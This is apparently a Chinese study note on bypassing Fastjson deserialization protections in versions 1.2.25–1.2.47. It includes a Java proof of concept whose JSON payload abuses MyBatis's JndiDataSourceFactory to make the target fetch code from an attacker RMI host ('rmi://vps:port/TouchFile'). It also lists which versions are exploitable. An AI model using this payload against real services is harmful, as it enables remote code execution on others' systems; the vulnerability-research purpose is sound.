 再次报错，希望在43列的位置存在一个`{`

继续添加上去，再次执行，可以看到成功执行并弹出计算器

![image-20220923171441267](img/image-20220923171441267.png)

这也就是这个版本的修复与绕过

## 1.2.25~.12.45

这个就不做复现了，因为这个是利用了一个黑名单中没有的类进行攻击的，所以大概描述下，正常进行反序列化走流程就可以触发。

这里需要安装额外的库 mybatis
mybatis也是比较常用的库了 orm框架

```
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.5.5</version>
</dependency>
```

POC

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://vps:port/TouchFile\"}}";
        JSON.parse(st);
    }
}

```

关于这个包中利用到的类和方法

![image-20221008153613186](img/image-20221008153613186.png)

看到这边`JndiDataSourceFactory`类中，这里的`setProperties`方法中调用了`InitialContext.lookup()

其中参数是POC中输入的`properties`属性值自定义为`data_source`然后就可以进行利用并出发漏洞了。

## 1.2.25~1.2.47

这里有点不一样，所以再写一次

- 1.2.25-1.2.32版本：未开启`AutoTypeSupport`时能成功利用，开启AutoTypeSupport反而不能成功触发；

- 1.2.33-1.2.47版本：无论是否开启`AutoTypeSupport`，都能成功利用；

还有就是jdk版本的限制和相应版本调用的是RMI还是JNDI的限制了
